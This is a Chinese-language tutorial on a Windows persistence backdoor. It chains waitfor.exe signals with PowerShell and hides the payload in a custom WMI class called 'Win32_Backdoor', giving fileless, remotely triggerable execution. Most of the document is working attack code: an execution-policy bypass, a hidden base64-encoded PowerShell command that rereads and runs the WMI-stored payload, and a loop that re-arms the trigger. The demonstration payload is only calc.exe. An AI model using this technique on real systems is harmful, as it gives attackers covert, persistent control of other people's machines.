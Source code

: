 ## Waitfor 源码

[项目地址](https://github.com/3gstudent/Waitfor-Persistence)

### 演示

`waitfor /?`

`waitfor /s 127.0.0.1 /si signalcalc`

`waitfor signalcalc && calc.exe`

### 缺点

- 触发一次后，进程waitfor.exe将退出，导致该后门无法重复使用

### 解决方案 1

```powershell
<#
	test.ps1
	执行powershell脚本，等待10秒再启动calc.exe
#>
Start-Sleep -Seconds 10;
start-process calc.exe;
```

```powershell
<#
	c:test1.ps1
#>
start-process calc.exe;
cmd /c waitfor persist `&`& powershell -executionpolicy bypass -file c:test1.ps1
```

- 开启等待模式

  `waitfor persist && powershell -executionpolicy bypass -file c:test1.ps1`

- 发送信号

  `waitfor /s 127.0.0.1 /si persist` [^1]

### 解决方案2 [^2]

```powershell
<#
	`sudo payload.ps1`
#>
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe")
$StaticClass.Put() 
```

- 读取 payload

  `([WmiClass] 'Win32_Backdoor').Properties['Code'].Value` [^3]

- 执行 payload

  `$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value; iex $exec`

- 对执行的 payload 命令进行base64加密

  ```powershell
  <#
  	code.txt ： $exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value; iex $exec
  #>
  $code = Get-Content -Path code.txt
  $bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
  $encoded = [System.Convert]::ToBase64String($bytes)
  $encoded 
  <#
  	或者使用 `certutil -encode code.txt base64_code.txt`
  #>
  ```


### 完整代码

```powershell
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
<#
	`get-help new-object -online`
	New-Object : 创建Microsoft .NET Framework或COM对象的实例
#>
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()| Out-Null
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& taskkill /f /im powershell.exe ```&```& waitfor persist ```&```& powershell -nop -W Hidden -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
<# 
	base64 解码为
	`$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value; iex $exec`
#>
$StaticClass.Put() | Out-Null

$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec | Out-Null
```

- 开启等待模式

  `sudo powershell -executionpolicy bypass -file c:test1.ps1`

- 激活命令

  `waitfor /s 127.0.0.1 /si persist`

### 缺点

- 后台存在 waitfor 进程



[原文](https://yq.aliyun.com/articles/217554)

---

[^1]: 连续发该信号即可在远程主机上打开多个计算器程序
[^2]: 不在目标系统保存文件，即将payload保存在WMI类中，进行读取使用存储payload
[^3]: 返回结果： `cmd /c start calc.exe`


